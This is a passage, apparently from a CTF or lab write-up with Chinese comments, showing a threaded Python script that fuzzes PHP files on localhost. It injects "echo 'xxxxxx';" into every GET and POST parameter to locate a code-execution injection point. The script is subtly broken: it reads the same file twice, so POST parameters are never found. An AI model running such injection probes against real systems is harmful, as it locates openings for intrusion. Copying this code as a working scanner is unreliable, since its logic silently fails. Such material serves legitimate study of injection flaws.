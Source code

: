 ```python
def get_content(file):
    s1.acquire()                                                
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:                            #打开php文件，提取所有的$_GET和$_POST的参数
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}                                                        #所有的$_POST
    params = {}                                                        #所有的$_GET
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
        data[n] = "echo 'xxxxxx';"
    url = 'http://127.0.0.1/src/'+file
    req = session.post(url, data=data, params=params)            #一次性请求所有的GET和POST
    req.close()                                                # 关闭请求  释放内存
    req.encoding = 'utf-8'
    content = req.text
    #print(content)
    if "xxxxxx" in content:                                    #如果发现有可以利用的参数，继续筛选出具体的参数
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
            content = req.text
            req.close()                                                # 关闭请求  释放内存
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()                                                # 关闭请求  释放内存
                if "xxxxxx" in content:
                    break
        if flag == 1:                                                    #flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:                                                            #加入多线程
   t = threading.Thread(target=get_content, args=(i,))
   t.start()
```

![image-20231113175907317](./img/13-1.png)

